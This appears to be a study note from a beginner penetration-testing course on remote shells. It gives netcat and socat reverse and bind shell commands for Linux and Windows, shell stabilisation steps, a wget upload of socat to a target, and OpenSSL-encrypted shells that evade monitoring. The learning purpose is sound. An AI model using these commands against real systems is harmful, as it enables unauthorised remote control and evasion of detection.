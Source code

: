 ```yaml
---
description: Section nine in Complete Beginner learning path.
---
```


# 9. What the Shell?

### Introduction

At a high level, there are two kinds of shell that are important when exploiting a target: reverse shells, and bind shells.

A reverse shell is when a target is forced to execute code that will connect back to your computer. On your own PC you will need to run a listener to receive the connection. Reverse shells are good to bypass firewall rules, however, you will need to configure your own network to accept the shell.

A bind shell is when the code executed on the target starts a listener attached to a shell on the target. This is then open on the internet which allows you to connect to the open port and obtain RCE. This does not require any configuration on your machine but it may be blocked by firewalls.

### Reverse Shells

To set up a very, very basic reverse shell, run the command `sudo nc -lvnp [port_number]` on your machine, and run the command `nc [local_ip] [port_number] -e /bin/bash` on the target machine.

The syntax for netcat listener breaks down to:

* \-l : tells netcat it will be a listener
* \-v : request verbose output
* \-n : tells netcat not to resolve hostnames or use DNS
* \-p : indicates port specification follows

If you use a port number below port 1024 you will need to run this using `sudo`.

For a basic reverse shell listening using socat, the syntax is: `socat TCP-L:[port] -`. This takes two points and connects them together. We can use the following command on Windows to connect back to this: `socat TCP:[LOCAL_IP]:[LOCAL_PORT] EXEC:powershell.exe,pipes`. The "pipes" option is used to force PowerShell to use Unix standard input and output. The equivalent command in Linux is: `socat TCP:[LOCAL_IP]:[LOCAL_PORT] EXEC:"bash -li"`.

### Bind Shells

To set up a very, very basic bind shell, run the command `nc -lvnp [port_number] -e "cmd.exe"` on the target machine and run `nc [IP_ADDR] [port_number]` on your attacking machine.

To get a bind shell socat listener, we can run the following on Linux: `socat TCP-L:[PORT] EXEC:"bash -li"`. On Windows, we can run `socat TCP-L:[TARGET_IP]:[TARGET_PORT]` to achieve the same result.

### Shell Stabilisation

Using Python:

1. Run `python -c 'import pty;pty.spawn("/bin/bash")'` which uses Python to spawn a better bash shell. This may depend on the version of `python` on the machine, to account for this, just replace the initial `python` with `python2` or `python3`.
2. Run `export TERM=xterm`, which will give us access to commands like `clear`.
3. Finally, background this shell using `CTRL + Z`, in your own terminal now use `stty raw -echo; fg`. This turns off our own terminal echo (giving access to autocompletes, arrow keys and `CTRL + C` process kill). This foregrounds the shell & completes the process.

Note: if this shell dies you will need to type `reset` and hit enter to restore your shell.

Using rlwrap:

rlwrap gives access to history, tab autocomplete, and the arrow keys immediately on getting the shell; however, manual stabilisation must be used to be able to use `CTRL + C` inside the shell. To install this run: `sudo apt install rlwrap`. To use rlwrap, invoke `rlwrap nc -lvnp [port_number]`.&#x20;

This method is useful when dealing with Windows shells, when dealing with a Linux target you can fully stablise by following step 3 of the Python technique; background the shell and run `stty raw -echo; fg`.

Using Socat:

Socat will only work on Linux for stabilisation. To use this method a socat static compiled binary must be uploaded to the target, this can be done using `sudo python3 -m http.server 80` on your attacking machine and `wget [IP_ADDR]/socat -O /tmp/socat` on the target machine.

With these techniques it can also be useful to change terminal size. To do this, open another terminal and run stty -a, this will show a number of "rows" and "columns". Back in the reverse/bind shell, run `stty rows [NUMBER]` and then `stty cols [NUMBER]`, replacing `[NUMBER]` with the values you got from your own terminal.

To get a fully stable Linux tty reverse shell using socat, we can run: ``socat TCP-L:[PORT] FILE:`tty`,raw,echo=0``.

### Socat Encrypted Shells

Socat can create both bind and reverse encrypted shells. Encrypted shells cannot be spied on. Firstly, we need to generate a certificate to use encrypted shells, we should run this on our attacking machine:

```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

This creates a 2048 bit RSA key and matching cert, valid for just under a year. When this command runs, it will ask for info, this can be left blank or filled with nonsense. The two created files then need to be merged into a `.pem` file:

```
cat shell.key shell.crt > shell.pem
```

Now, when we set up the reverse shell listener, we use:

```
socat OPENSSL-LISTEN:[PORT],cert=shell.pem,verify=0
```

Here, the `verify=0` tag tells the connection not to bother trying to validate the certificate. The certificate must be used on whatever device is listening. To connect back to this we use:

```
socat OPENSSL:[LOCAL_IP]:[LOCAL_PORT],verify=0 EXEC:/bin/bash
```

The same technique applies for a bind shell, on the target run:

```
socat OPENSSL-LISTEN:[PORT],cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

On the attacker run:

```
socat OPENSSL:[TARGET_IP]:[TARGET_PORT],verify=0
```
